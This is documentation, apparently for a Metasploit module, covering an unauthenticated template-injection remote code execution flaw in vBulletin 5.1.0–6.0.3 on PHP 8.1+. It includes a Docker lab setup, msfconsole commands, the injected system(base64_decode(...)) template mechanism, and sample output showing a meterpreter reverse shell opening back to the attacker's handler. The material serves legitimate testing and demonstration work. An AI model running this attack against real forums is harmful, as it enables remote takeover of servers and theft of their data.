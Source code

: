 ## Vulnerable Application

This Metasploit module exploits a design flaw in vBulletin’s AJAX API handler and template
rendering system, affecting **vBulletin 5.1.0 through 6.0.3** on **PHP 8.1+**.
An unauthenticated attacker can invoke the protected `vB_Api_Ad::replaceAdTemplate()` method to inject a malicious template that calls
`system(base64_decode($_POST[<param>]))`, then trigger execution via the `ajax/render/ad_<location>` endpoint,
yielding arbitrary code execution as the webserver user.

> **Note:** vBulletin is commercial software and is **not** included here. You must obtain a licensed copy and extract it under `./upload/`.

---

## To replicate vulnerable environments

1. **vBulletin 6.0.1 (tested)**

   * Purchase and download vBulletin 6.0.1 from the official portal.
   * Extract all files into `./upload/`.

2. **Other versions (5.1.0–6.0.3)**

   * Repeat the above with any of the supported versions.
   * Ensure you run on PHP 8.1+; earlier PHP versions do not expose this flaw.

---

## Docker Compose Configuration

```yaml
services:
  db:
    image: mysql:5.7
    container_name: vbulletin_db
    restart: unless-stopped
    environment:
      MYSQL_ROOT_PASSWORD: root_password_here
      MYSQL_DATABASE: vbulletin
      MYSQL_USER: vbulletin
      MYSQL_PASSWORD: vb_password_here
    volumes:
      - db_data:/var/lib/mysql

  web:
    build: .
    container_name: vbulletin_web
    depends_on: [db]
    ports: ["8888:80"]
    volumes:
      - ./do_not_upload:/opt/vbulletin-tools:ro
    environment:
      VB_DB_HOST: db
      VB_DB_NAME: vbulletin
      VB_DB_USER: vbulletin
      VB_DB_PASS: vb_password_here

volumes:
  db_data:
```

Create the following **Dockerfile** and **docker-entrypoint.sh** in the same directory:

**Dockerfile**

```dockerfile
FROM php:8.1-apache

COPY upload/ /var/www/html/
COPY do_not_upload/ /opt/vbulletin-tools/

RUN apt-get update && \
    apt-get install -y --no-install-recommends \
       libzip-dev zlib1g-dev libonig-dev \
       libpng-dev libjpeg-dev libfreetype6-dev && \
    docker-php-ext-install \
       zip mysqli pdo_mysql gd mbstring && \
    a2enmod rewrite && \
    rm -rf /var/lib/apt/lists/*

RUN echo "phar.readonly=Off" > /usr/local/etc/php/conf.d/vbulletin.ini

COPY docker-entrypoint.sh /usr/local/bin/
RUN chmod +x /usr/local/bin/docker-entrypoint.sh
ENTRYPOINT ["docker-entrypoint.sh"]
CMD ["apache2-foreground"]
```

**docker-entrypoint.sh**

```bash
#!/bin/bash
chown -R www-data:www-data /var/www/html
exec "$@"
```

---

## Verification Steps

1. **Start the environment**
```bash
docker-compose up -d
```

2. **Install vBulletin**
Open [http://localhost:8888](http://localhost:8888) and complete the installation:

* **Database Host:** db
* **DB Name:** vbulletin
* **DB User:** vbulletin / vbpass

3. **Run `msfconsole`**

```bash
use exploit/multi/http/vbulletin_replace_ad_template_rce
set RHOSTS 127.0.0.1
set RPORT 8888
set TARGETURI /
check
```
* You should see:
```bash
[*] Detected vBulletin version: 6.0.1
[*] 127.0.0.1:8888 - The target appears to be vulnerable. vBulletin version 6.0.1 is likely vulnerable (< 6.0.4)
```

---

## Options

No option

---

## Scenarios

### Unauthenticated Pre-Auth RCE

1. Ensure vBulletin 5.1.0–6.0.3 is installed and running on PHP 8.1+.
2. In `msfconsole`, configure and run:

```bash
set RHOSTS localhost
set RPORT 8888
set TARGETURI /
```

---

## Expected Results

### With `cmd/linux/http/x64/meterpreter/reverse_tcp`

```plaintext
msf6 exploit(multi/http/vbulletin_replace_ad_template_rce) > run http://lab:8888
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected vBulletin version: 6.0.1
[+] The target appears to be vulnerable. vBulletin version 6.0.1 is likely vulnerable (< 6.0.4)
[*] Injecting RCE template at location 'MDb' with POST param 'YHp'
[*] Triggering payload execution via routestring 'ajax/render/ad_MDb'
[*] Sending stage (3045380 bytes) to 172.28.0.3
[*] Meterpreter session 9 opened (192.168.1.36:4444 -> 172.28.0.3:45980) at 2025-05-23 22:46:22 +0200

meterpreter > sysinfo
Computer     : 172.28.0.3
OS           : Debian 12.11 (Linux 6.14.6-2-cachyos)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
